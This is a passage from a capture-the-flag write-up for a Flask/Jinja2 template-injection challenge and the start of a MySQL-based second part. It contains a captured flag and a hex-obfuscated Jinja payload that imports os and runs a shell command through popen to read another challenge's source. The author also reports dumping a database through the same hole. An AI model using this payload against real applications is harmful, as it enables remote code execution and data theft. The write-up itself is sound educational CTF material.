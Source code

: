 and **getting parcham as:**

```
parcham{N0th1ng_W0rth_Hav1ng_c0m3s_Easy}
```

I agree with parcham:)

## Script
A simple [shell script][shellScript] is provided to automate this process!

### Execution
To execute this script you don't need any prerequest! Just run it as a typical binary:

```
$ ./exploit.sh
```

### Demo
Here is a demo of executing given exploit and explaining it: [Recorded Video][record]

NOTE: This video contains both [Part 1](#part1) and [Part 2](#part2). Also please note it's encoded to `matroska(mkv)` format, so you may need to download it first and use a media player to play it because some browsers (excluding chromium) couldn't play this format.

## Warning
This vunerability is really dangerous, I even can reach *parcham* of other question too just by using this vulnerability:/

*HINT*: run `$ pwd` to find cuurrent location(e.i. location of challenge2), then traverse upward until you see challenge1 directory.

Final input to see entire code of challenge1:

```
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("cat \x2e\x2e\x2f\x2e\x2e\x2fchallenge1\x2fapp\x2ejs")|attr("read")()}}
```

Besides this, I was able to dump the database of part 2 using `mysqldump`. All of information which I got using this vulnerability from part2 is available in [this directory][dumpPart2].

Anyway I'll prefer to solve other part as supposed to do.

# Part2

For solving this part, I tried a lot of methods because I didn't have any experiece with *mysql* and its features.

It's unbelievable but I even tried to forge the signature:) but after getting the entire code from vulnerability of [part1](#part1) I found out even if I forge it, I couldn't access the parcham:)

## Vulnerability


[jinjaFilters]: https://jinja.palletsprojects.com/en/2.10.x/templates/#list-of-builtin-filters
[mainFlask]: https://flask.palletsprojects.com/en/2.0.x/
[requestFlask]: https://flask.palletsprojects.com/en/2.0.x/api/#flask.request
[flaskApplication]: https://flask.palletsprojects.com/en/2.0.x/api/#flask.Request.application
[charToHex]: https://www.rapidtables.com/convert/number/ascii-to-hex.html
[dumpPart2]: ./part1/dumpPart2/
[code]: ./part2/app.js
[expressURLE]: https://expressjs.com/en/api.html#express.urlencoded
[qs]: https://www.npmjs.com/package/qs#readme
[prototypePollution]: https://www.neuralegion.com/blog/prototype-pollution/
[npmmysql]: https://www.npmjs.com/package/mysql
[npmmysqlescape]: https://www.npmjs.com/package/mysql#escaping-query-values
[mySQLBool]: https://www.mysqltutorial.org/mysql-boolean/
[mySQLChainedComp]: https://stackoverflow.com/q/28952960/10813146
[mySQLConversion]: https://dev.mysql.com/doc/refman/8.0/en/type-conversion.html
[shellScript]: ./part1/exploit.sh
[shellScript2]: ./part2/exploit.sh
[record]: https://mega.nz/file/dlUiBLjJ#TgLrkoDU1UU6GLUusC8uSneww1ynFGkmHd3rvIiysGc